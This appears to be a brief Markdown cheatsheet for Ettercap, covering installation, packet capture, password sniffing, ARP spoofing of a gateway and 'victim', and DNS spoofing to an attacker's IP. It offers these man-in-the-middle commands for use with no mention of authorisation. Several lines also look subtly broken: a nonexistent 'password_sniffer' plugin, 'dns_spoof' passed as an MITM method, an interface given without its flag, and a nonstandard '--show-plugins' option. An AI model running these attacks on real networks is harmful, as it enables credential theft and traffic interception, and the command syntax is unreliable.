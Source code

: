 

Ettercap is a network security tool that allows users to monitor and analyze network traffic, as well as perform man-in-the-middle attacks. This cheatsheet provides a quick reference guide for using Ettercap.

## Installation

Ettercap can be installed on Linux-based operating systems using the following command:

```bash
sudo apt-get install ettercap-graphical
```

## Starting Ettercap

Ettercap can be started with the following command:

```bash
sudo ettercap -G
```

## Capturing Packets

To capture packets on a specific network interface, use the following command:

```bash
sudo ettercap -T <interface>
```

## Sniffing Passwords

To sniff passwords on a network, use the following command:

```bash
sudo ettercap -T -P password_sniffer -i <interface>
```

## ARP Spoofing

To perform ARP spoofing on a network, use the following command:

```bash
sudo ettercap -T -M arp:remote /<gateway ip>// /<victim ip>//
```

## DNS Spoofing

To perform DNS spoofing on a network, use the following command:

```bash
sudo ettercap -T -M dns_spoof /<target site>// /<ip address of attacker>//
```

## Plugins

Ettercap has various plugins that can be used to extend its functionality. To view the available plugins, use the following command:

```bash
ettercap --show-plugins
```

To use a specific plugin, use the following command:

```bash
sudo ettercap -T -M <plugin_name> /<gateway ip>// /<victim ip>//
```

## Additional Resources

- [Official Ettercap Website](https://ettercap.github.io/ettercap/)
- [Ettercap User Manual](https://ettercap.github.io/ettercap/downloads/EttercapUserManual.pdf)
- [Ettercap Wiki](https://github.com/Ettercap/ettercap/wiki)